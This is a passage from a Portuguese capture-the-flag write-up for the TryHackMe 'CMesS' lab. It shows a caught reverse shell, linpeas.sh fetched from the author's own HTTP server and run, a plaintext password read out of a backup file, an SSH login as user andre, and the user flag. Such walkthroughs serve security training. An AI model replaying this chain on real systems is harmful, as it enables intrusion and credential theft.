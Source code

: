 Após inserir este input na página web, em nossa máquina já temos acesso ao **reverse shell**:

```
Connection from 10.10.215.52:49564  
/bin/sh: 0: can't access tty; job control turned off  
$ pwd     
/var/www/html  
$ whoami  
www-data  
$
```

Subi o https://github.com/carlospolop/PEASS-ng em um servidor **HTTP**, baixei o **linpeas.sh** e concedi permissão de execução com "**chmod +x linpeas.sh**".

Ao executar o arquivo, temos uma saída com inúmeras informações, porém, vamos dar ênfase a dois achados:
 - **/tmp/andre_backup.tar.gz**
 - **/opt/.password.bak**

```
╔══════════╣ Backup files (limited 100)  
-rw-r--r-- 1 root root 161 Jun  1 06:38 /tmp/andre_backup.tar.gz
[...]
-rwxrwxrwx 1 root root 36 Feb  6  2020 /opt/.password.bak
[...]
```

Senha do usuário andre:

```
$ cat /opt/.password.bak  
andres backup password  
UQfsdCB7aAP6
```

Conectando via **ssh**:

```
ssh andre@cmess.thm  
andre@cmess.thm's password:    
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/advantage  
Last login: Thu Feb 13 15:02:43 2020 from 10.0.0.20  
andre@cmess:~$ ls  
backup  user.txt
```

Nossa **primeira flag** se encontra dentro do arquivo **user.txt**:

```
andre@cmess:~$ cat user.txt    
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```
---
